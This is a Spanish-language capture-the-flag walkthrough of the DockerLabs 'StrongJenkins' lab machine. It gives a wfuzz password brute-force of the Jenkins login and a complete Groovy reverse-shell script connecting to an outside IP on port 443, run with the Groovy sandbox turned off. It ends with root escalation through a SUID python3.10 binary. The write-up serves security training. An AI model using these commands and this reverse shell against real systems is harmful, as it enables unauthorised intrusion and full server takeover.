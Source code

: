 Máquina: [StrongJenkins](https://dockerlabs.es/#/#StrongJenkins), from DockerLabs

## 1) Como siempre iniciamos con un escaneo de puertos contra la IP destino
```
nmap -p- --open -sS -vvv --min-rate 3000 -n 172.17.0.2
```
Encontramos el puerto `8080` abierto y al acceder al mismo vemos un panel de login en Jenkins.

Antes de intentar acceder hacemos un poco de fuzzing para encontar más endpoints. Sin embargo no obtenemos nada útil aquí.


## 2) Toca hacer fuerza bruta al login de Jenkins
Usando Burpsuite o las herramientas de desarrollador de la web vemos que el payload enviado al momento de logearse está compuesto de la siguiente manera

```yml
j_username=<UERNAME>
j_password=<PASSWORD>
```
Si contamos con licencia de Burpsuite podemos interceptar la request y enviarla al repetidor. Una vez allí marcamos como campo a fuzzear el de la contraseña (`j_password`) y en para el usuario probamos con el clásico admin. Luego es cuestión de elegir la lista de contraseñas a probar y esperar. En el caso de no tener licencia la velocidad del intruder es limitada, por tal motivo yo prefiero utilizar `wfuzz` pues es completamente open source y podremos utilizar todos los recursos de nuestra computadora al máximo.

El comando utilizado es el siguiente
```bash
wfuzz -c -z file,/usr/share/wordlists/rockyou.txt -d "j_username=admin&j_password=FUZZ" --field "r.headers.response.location" --field "r.params.raw_post" http://172.17.0.2:8080/j_spring_security_check | grep -v loginError
```
`-c: output with colors`\
`-z <type,parameters>: specify a PAYLOAD for each FUZZ keyword with the format <type>,<parameters>`\
`-d <payload>: payload`\
`--field <object>: output the selected field`\
En este caso nosotros queremos observar el payload enviado, para observar la contraseña en cuestión, y el campo `Location` que pertenece al header de la response. Este último será crucial pues luego de probar un par de combinaciones manualmente se observa que cuando la contraseña el inválida se appendea la string `loginError` a la URL que se ve en campo previamente mencionado.
Justamente por este motivo también concatenamos el comando `grep` con el parámetro `-v` para excluir justamente aquellos casos donde aparezca `loginError` y quedarnos únicamente con la contraseña válida.

Luego de un rato encontramos la contraseña válida: _rockyou_.
Accedemos en el navegador y vemos el panel de control de Jenkins

## 3) Vulnerar la máquina desde Jenkins
Como el usuario Jenkins es administrador, podemos crear un nuevo job que ejecute un script custom. Para ello simplemente hacemos click en "New Item" elegimos un nombre, seleccionamos "pipeline" de todas las opciones que aparecen y luego le damos a "ok".
Resta la siguiente etapa que es la configuración del job, allí vemos que en la sección 'Pipeline' podemos agregar un script, en lenguaje [Groovy](https://www.jenkins.io/doc/pipeline/steps/groovy/).

Usando [esta](https://www.revshells.com/) página podemos crear una revershell en diferentes lenguajes. En este caso seleccionamos 'Groovy' y configuramos nuestra IP y puerto destino.
El script en cuestión:
```bash
String host="192.168.145.133";int port=443;String cmd="bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Es muy importante que hagamos click en 'Approve script' cuando lo modificamos para darle permisos de ejecución y destildemos la casilla 'Use Groovy Sandbox' así lo ejecutamos en un entorno "libre".

Ya una vez configurado el job volvemos al host y nos ponemos en escucha con netcat
```bash
nc -n -lvp 443
```
Acto seguido ejecutamos el job desde el navegador y observamos que recibimos una conexión en el host.

## 4) Previo a la escalada de privilegios
Antes de buscar escalar privilegios vamos a ajustar la terminal para que sea más cómodo su uso
```
script /dev/null -c bash
# Ctrl + z
```
```
# Dentro del host
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 51 columns 181
```

## 5) Escalamos privilegios
Ahora toca escalar privilegios y para ello siempre lo buscamos qué podemos ejecutar como sudo. Lo principal a verificar será ejecutar `sudo -l` y ver que devuelve. En este caso nos dice que no existe el comando `sudo` con lo cual recurrimos al segundo método para encontrar aquellos programas que tienen el flag SUID:
```
find / -perm -4000 2>/dev/null
```

Encontramos el binario `/usr/bin/python3.10`. Acá ya está sentenciada la máquina. Simplemente ejecutamos
```bash
# Ejecutamos python3.10 de modo interactivo
/usr/bin/python3.10 -i
```
una vez dentro de python buscamos ejecutar `/bin/bash` con el parámetro `-p` así utilizamos los permisos del owner, que es _root_.
```python
import os
os.execl("/bin/bash", "bash", "-p")
# Notamos que cambió el prompt a 'bash-5.1#'
# eso indica que ya tenemos una instancia de bash interactiva modo root
$ whoami
root
```

**NOTA**: Es necesario utilizar [os.execl()](https://docs.python.org/3/library/os.html#os.execl) en vez de [os.system()](https://docs.python.org/3/library/os.html#os.system) pues el segundo crea un SUBPROCESO mientras que el primero reemplaza el proceso actual por el nuevo. Al hacer eso el binario python3.10, que tiene permisos de root estará ejecutando `/bin/bash -p` por nosotros y no habrá conflicto de permisos.

## Resumen del ataque

Este método funcionó por lo siguiente:
* Tanto el usuario como la contraseña del administrador de Jenkins son débiles
* Jenkins permite ejecutar comandos fuera de la sandbox de Groovy, logrando así un RCE
* La máquina está configurada de tal manera que no le prohibe entablar una reverse shell
* el usuario _Jenkins_ tiene permiso a ejecutar python3.10 como root
